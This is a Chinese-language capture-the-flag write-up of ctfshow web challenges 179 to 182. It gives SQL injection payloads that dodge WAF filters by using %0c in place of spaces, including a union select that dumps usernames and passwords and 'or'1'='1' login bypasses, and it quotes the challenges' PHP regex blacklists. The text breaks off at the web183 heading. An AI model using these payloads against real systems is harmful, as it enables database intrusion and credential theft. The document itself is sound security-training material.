 ### web179

它这次把%09绕过了，那就用%0c代替

```
1'%0cunion%0cselect%0cid,username,password%0cfrom%0cctfshow_user%23
```

后面基本过程相似，就不放图了。

万能密码'or'1'='1'%23依旧坚挺，下道题试试看。

### web180

这次过滤了%09,%0a,%0b,%0d，用%0c绕过

通过测试发现注释符被过滤了，即–+，#，%23都不可以使用，我们换一种思路，把sql后面的‘闭合。

```
'or'1'='1'--%0c
```

或者

```
-1'%0cor%0cusername%0clike%0c'flag
```



### web181

```
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

这次过滤了空格

payload:-1'%0cor%0cusername='flag



### web182

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
  }
```

不许直接访问flag

payload:-1'%0cor%0cusername%0clike%0c'f%%%



### web183
